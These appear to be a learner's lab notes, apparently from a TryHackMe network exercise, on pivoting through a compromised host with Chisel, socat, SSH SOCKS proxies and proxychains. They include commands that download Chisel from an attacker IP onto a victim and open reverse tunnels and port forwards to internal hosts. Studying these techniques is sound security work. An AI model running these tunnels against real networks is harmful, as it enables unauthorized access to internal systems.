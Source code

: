 
>[!important] the fact it doesn't require SSH access on the compromised target is a big bonus
- For Tunneled proxy or port forward regardless we have a SSH connection or not will use an awesome tool called Chisel.

Linux
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

Window
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz


```
gunzip * 
```

```
 file chisel_1.9.1_*
```
![[Pasted image 20231223223904.png]]

```
chmod +x chisel_1.9.1_linux_amd64 
```
![[Pasted image 20231223224004.png]]

|| SOCKS proxy, and port forwarding ||

chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`
```
./chisel_1.9.1_linux_amd64 server --help | head -19
```
![[Pasted image 20231223224539.png]]

```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./client server -p 1337 --reverse &
```
![[Pasted image 20231224120045.png]]

```
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
```
![[Pasted image 20231224120153.png]]


```
./socat tcp:10.50.106.240:8001 tcp:10.200.105.200:80,fork &

./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &

ssh -L 5901:10.200.105.200:80root@thomaswreatg.thm

Reverse Proxy Chisel
Attacker
./client server -p 1337 --reverse &
Victim
./chisel client 10.50.106.240:1337 R:socks &


Forward Sock Proxy
Victim
./chisel server -p LISTEN_PORT --socks5

Attacker
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

```


<h2>So basically we are doing Reverse Socks / Forward Socks/ Remote Port Forward / Local Port Forward </h2>

```

./chisel server -p 4242 --reverse
./chisel client 172.16.0.200:4242 R:socks &

./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &

./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel client 172.16.0.10:4444 8000:172.16.0.5:80
```

>[!Important]
```
How will we talk to destbox.local than ??
Sock Proxies : A sock proxy difers from traditional port forwarding in that sock is a protocol,
whereas forwarding is routing.

OSI Layer:
Port forwarding happening in the network layer (i.e. send any traffic over a port forward: ssh traffic, http traffic, raw bytes.........)
while
Socks proxying works at the application layer (i.e. communication will occue using the defined protocol)

1st machine (Attacker to Jumpbox1)
SOCK proxy b/w 2 machines:
ssh -f -N -D 127.0.0.1:8888 user@jumpbox1.local

Once the Socks proxy established we can than use proxychains4 to communicate over the newly established tunnel/proxy.

SOCK proxy b/w 2 machines: (Jumpbox1 to Jumpbox2)
ssh -f -N -D 127.0.0.1:9999 user@jumpbox1.local
Keep in mind that the proxychains4 is going to use each proxy in a ordered list approach.

Finally we can talk Attacker to Destbox
proxychains4 -f ~/new-proxychains.conf curl http://destbox.local
```


